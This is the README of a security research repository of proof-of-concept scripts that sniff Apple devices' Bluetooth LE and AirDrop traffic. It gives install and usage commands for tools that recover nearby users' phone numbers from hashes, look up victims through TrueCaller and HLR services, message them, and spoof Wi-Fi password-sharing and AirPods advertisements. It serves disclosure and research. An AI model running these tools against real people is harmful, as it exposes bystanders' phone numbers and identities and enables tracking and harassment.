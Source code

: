 # Apple bleee

<p align="center">
  <img src="https://github.com/hexway/apple_bleee/blob/master/img/logo.jpg"  height="350">
</p>

## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***This project is created only for educational purposes and cannot be used for 
law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***


## Requirements
To use these scripts you will need a Bluetooth adapter for sending `BLE` messages and Wi-Fi card supporting active monitor mode with frame injection for communication using `AWDL` (airdrop). We recommend the Atheros AR9280 chip (IEEE 802.11n) we used to develop and test this code.
We have tested these PoCs on **Kali Linux**


## Installation

```
# clone main repo
git clone https://github.com/hexway/apple_bleee.git && cd apple_blee
# install dependencies
sudo apt update && sudo apt install -y bluez libpcap-dev libev-dev libnl-3-dev libnl-genl-3-dev libnl-route-3-dev cmake libbluetooth-dev
sudo pip3 install -r requirements.txt
# clone and install owl for AWDL interface
git clone https://github.com/seemoo-lab/owl.git && cd ./owl && git submodule update --init && mkdir build && cd build && cmake .. && make && sudo make install && cd ../..
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


### Script: [ble_read_state.py](https://github.com/hexway/apple_bleee/blob/master/ble_read_state.py) 

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values. 

![dev_status](img/dev_status.png) 

```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-c] [-n] [-r] [-l] [-s] [-m] [-a] [-t TTL]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help          show this help message and exit
  -c, --check_hash    Get phone number by hash
  -n, --check_phone   Get user info by phone number (TrueCaller/etc)
  -r, --check_region  Get phone number region info
  -l, --check_hlr     Get phone number info by HRL request (hlrlookup.com)
  -s, --ssid          Get SSID from requests
  -m, --message       Send iMessage to the victim
  -a, --airdrop       Get info from AWDL
  -t TTL, --ttl TTL   ttl
```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit

If you want to get phone numbers from a wifi password request, you have to prepare hashtable (please find scripts below), setup a web server and specify `base_url` inside this script and run it with  `-c` parameter 

```bash
sudo python3 ble_read_state.py -с
```

**Video demo (click):**

[![airdrop_demo](img/status_gif.gif)](https://www.youtube.com/watch?v=Bi602yAIBAw)

### Script: [airdrop_leak.py](https://github.com/hexway/apple_bleee/blob/master/airdrop_leak.py) 

This script allows to get mobile phone number of any user who will try to send file via AirDrop

For this script, we'll need `AWDL` interface:
```bash
# set wifi card to monitor mode and run owl
sudo iwconfig wlan0 mode monitor && sudo ip link set wlan0 up && sudo owl -i wlan0 -N &
```

Now, you can run the script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-c] [-n] [-m]

Apple Airdrop phone number catcher
---chipik

optional arguments:
  -h, --help         show this help message and exit
  -c, --check_hash   Get phone number by hash
  -n, --check_phone  Get user info by phone number (TrueCaller/etc)
  -m, --message      Send iMessage to the victim
```

With no params, the script just displays phone hash and ipv6 address of the sender

```bash
sudo python3 airdrop_leak.py 
```

**Video demo (click):**

[![airdrop_demo](img/airdrop_gif.gif)](https://www.youtube.com/watch?v=mREIeH_s3z8)

### Script: [adv_wifi.py](https://github.com/hexway/apple_bleee/blob/master/adv_wifi.py) 

This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger pop up message on target device if he/she knows any phone/email that exist on victim's device   

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

Wifi pwd sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  Wi-Fi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a wifi password request, we'll need to specify any contact(email/phone) that exists in a victim's contacts and the SSID of a wifi network that victim knows.

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

**Video demo (click):**

[![share_wifi_demo](img/share_wifi_pwd2_gif.gif)](https://www.youtube.com/watch?v=QkGCP2mfbJ8)

### Script: [adv_airpods.py](https://github.com/hexway/apple_bleee/blob/master/adv_airpods.py) 

This script mimics airpods by sending `BLE` messages 

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r]

AirPods advertise spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          send random charge values
```

Let's send `BLE` messages with random charge values for headphones

```bash
sudo python3 adv_airpods.py -r
```

**Video demo (click):**

[![airdrop_demo](img/airpods_gif.gif)](https://www.youtube.com/watch?v=HoSuLUtrkXo)

### Script: [hash2phone](https://github.com/hexway/apple_bleee/blob/master/hash2phone/) 

You can use this script to create pre-calculated table with mobile phone numbers hashes<br>
Please find details [here](/hash2phone) 

## Contacts

[https://hexway.io](https://hexway.io)<br>
[@_hexway](https://twitter.com/_hexway) 

